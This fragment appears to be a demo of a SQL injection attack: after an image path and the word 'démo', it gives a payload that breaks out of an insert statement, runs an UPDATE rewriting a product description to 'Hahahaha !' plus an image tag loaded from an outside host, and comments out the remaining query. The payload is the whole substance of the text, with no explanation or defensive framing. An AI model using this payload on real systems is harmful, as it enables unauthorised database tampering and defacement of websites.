 démo : 

test', '', ''); UPDATE product set description='Hahahaha !<img src="http://ppp.jlb.ninja/api.php?width=900&height=400&id=6"/>' WHERE id = 1; --